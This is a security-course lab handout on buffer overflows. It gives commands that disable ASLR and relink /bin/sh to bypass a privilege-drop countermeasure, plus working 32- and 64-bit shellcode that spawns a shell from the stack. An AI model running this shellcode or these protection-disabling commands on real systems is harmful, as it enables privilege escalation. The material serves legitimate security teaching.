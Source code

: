# Lab 2 - Buffer Overflows

Buffer overflow is defined as the condition in which
a program attempts to write data beyond the boundary of a buffer.
This vulnerability can be used by a malicious user
to alter the flow control of the program,
leading to the execution of malicious code.
The objective of this lab is for you to
gain practical insights into this type of vulnerability, and
learn how to exploit the vulnerability in attacks.

More specifically,
in this lab, you will be given a program with a buffer-overflow vulnerability;
your task is to
develop a scheme to exploit the vulnerability and
finally gain the root privilege.

This lab covers the following topics:
- Buffer overflow vulnerability and exploit
- Shellcode (32-bit and 64-bit)
- Stack layout

## Step 0: prepare for a secure practice environment

Modern operating systems have implemented several security mechanisms
to make the buffer-overflow attack difficult.
We disable them to simplify our attacks.

- Ubuntu and several other Linux-based systems
  uses address space randomization (ASLR)
  to randomize the starting address of heap and stack.
  This makes guessing the exact addresses difficult.
  As you will experience later,
  guessing addresses is one of the critical steps of buffer-overflow attacks.
  This feature can be disabled using the following command
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

- In the recent versions of Ubuntu,
  the `/bin/sh` symbolic link points to the `/bin/dash` shell.
  The `dash` program, as well as `bash`,
  has implemented a security countermeasure that
  prevents itself from being executed in a `Set-UID` process.
  Basically, if they detect that they are executed
  in a `Set-UID` process,
  they will immediately change the effective user ID
  to the process’s real user ID,
  essentially dropping the privilege.
  Since our victim program is a `Set-UID` program,
  and our attack relies on running `/bin/sh`, the
  countermeasure in `/bin/dash` makes our attack more difficult.
  Hence, we override the default shell to `zsh`
  that does not have such a countermeasure.
```bash
sudo ln -sf /bin/zsh /bin/sh
```

## Step 1: getting familiar with shellcode

The ultimate goal of buffer-overflow attacks is
to inject malicious code into the target program,
so the code can be executed using the target program’s privilege.
Shellcode is widely used in most code-injection attacks.
Let us get familiar with it in this step.

### The C version of shellcode

A shellcode is basically a piece of code that launches a shell.
If we use C code to implement it, it will look like the following:

```c
#include <stdio.h>
int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Unfortunately,
we cannot just compile this code and use the binary code as our shellcode
(modern compiler does way more things than C to binary translation).

The best way to write a shellcode is to use assembly code.
In this lab,
we only provide the binary version of a shellcode,
without explaining how it is written or how works (it is non-trivial).
If you are interested in
how shellcode works and/or
how write a shellcode from scratch,
you can learn that from a diverse range of tutorials online,
such as the [shellcode lab](https://seedsecuritylabs.org/Labs_20.04/Software/Shellcode/)
in the [SEED Labs](https://seedsecuritylabs.org/labs.html) project.

### Invoking the shellcode

In this task,
we will test the shellcode that invokes `/bin/sh` (i.e., spawns a shell)
by putting it into a C program.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv) {
    char code[500];
    strcpy(code, shellcode);        // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                         // Invoke the shellcode from the stack
    return 1;
}
```

Now, save the C code into a file named `call_shellcode.c`
and compile it with:

```bash
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
```
You will notice that two binaries are produced
`a32.out` and `a64.out`.

The `call_shellcode.c` file includes two copies of shellcode,
one is 32-bit and the other is 64-bit.
When we compile the program using the `-m32` flag,
the 32-bit version will be used;
without this flag, the 64-bit version will be used.
It should also be noted that
the compilation uses the `-z execstack` option,
which allows code to be executed from the stack;
without this option, the program will fail.

Now run the `./a32.out` and `./a64.out` binaries and
describe what you observe.